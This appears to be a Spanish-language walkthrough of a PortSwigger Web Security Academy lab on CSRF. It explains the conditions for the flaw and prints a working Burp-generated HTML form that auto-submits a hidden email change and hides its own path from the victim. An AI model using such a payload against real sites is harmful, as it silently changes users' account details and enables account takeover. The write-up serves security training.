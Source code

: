 # Lab: CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: `wiener:peter`

`Hint`: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un foro público:
![image](https://github.com/user-attachments/assets/e24589e2-f7ab-40e7-9907-a8652fafccb6)

Nosotros sabemos que este laboratorio tiene una funcionalidad de cambio de email vulnerable a CSRF por lo tanto procedemos a autenticarnos con nuestro usuario `wiener:peter`:
![image](https://github.com/user-attachments/assets/c2a76d52-4b73-437a-8174-8ce90058d0e1)

Observamos el dashboard principal del usuario:
![image](https://github.com/user-attachments/assets/b928d13a-12ea-43b7-8bcb-6fbe4d8759e9)

Tenemos a la vista la funcionalidad de cambio de email, que se puede acceder mediante el botón `Update email`.

Procedemos a cambiar nuestro email para analizar el proceso:
![image](https://github.com/user-attachments/assets/ee3909bb-9fe2-46ea-b720-136de2531196)

Nosotros sabemos que para que exista vulnerabilidad `CSRF` necesitamos cumplir 3 condiciones:
- `Acción relevante`: Debe existir una acción que interese al atacante (en este caso cambio de email).
- `Manejo de sesión basado en cookies`: El sitio usa cookies automáticas para identificar al usuario, sin ningún otro mecanismo adicional de validación (ausencia de token CSRF).
- `Parámetros predecibles`: El atacante puede predecir o controlar los parámetros necesarios en la solicitud HTTP (en este caso manejamos un único parámetro `email`).

La aplicación es vulnerable a CSRF, por lo que enviamos la solicitud al `Repeater`, hacemos click derecho en la solicitud, luego `Engagement tools`, luego `Generate CSRF PoC`.
Nos aparece una nueva ventana, hacemos click en `Regenerate`:
![image](https://github.com/user-attachments/assets/57f0d957-62ab-4678-ae2c-6ccce0280f40)


`Nota`: Verificar en `Options` que esté tildado `Include auto-submit script`.

Obtuvimos el siguiente script:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a69009d03f08c4b800c032e004c005b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### ✍️ Análisis paso a paso

#### 1. `<form action=... method="POST">`

Se crea un formulario HTML que apunta a la ruta vulnerable donde se realiza el cambio de email. Utiliza el método **POST**, necesario para muchas operaciones críticas.

#### 2. `<input type="hidden" name="email" value="test&#64;test&#46;com" />`

Campo oculto que contiene el valor malicioso que se desea enviar. Se usa codificación HTML para los caracteres especiales:

* `&#64;` → `@`
* `&#46;` → `.`

Este campo simula que el usuario quiere cambiar su correo a `test@test.com`.

#### 3. `<input type="submit" value="Submit request" />`

Botón de envío tradicional. Aunque **no se usará manualmente**, es necesario para que el formulario sea válido.

#### 4. `<script> history.pushState('', '', '/'); document.forms[0].submit(); </script>`

Script que **automatiza** el ataque:

* `history.pushState('', '', '/')`: modifica la URL en la barra de direcciones para **ocultar el path del exploit** y hacerlo parecer más legítimo.
* `document.forms[0].submit();`: envía automáticamente el formulario cuando se carga la página.

---

### 💡 Resultado esperado

Si un usuario autenticado visita esta página:

* El navegador enviará el formulario POST a la aplicación vulnerable.
* El servidor usará las cookies del usuario (ya que son automáticamente incluidas).
* El email del usuario será modificado sin que se dé cuenta.

---





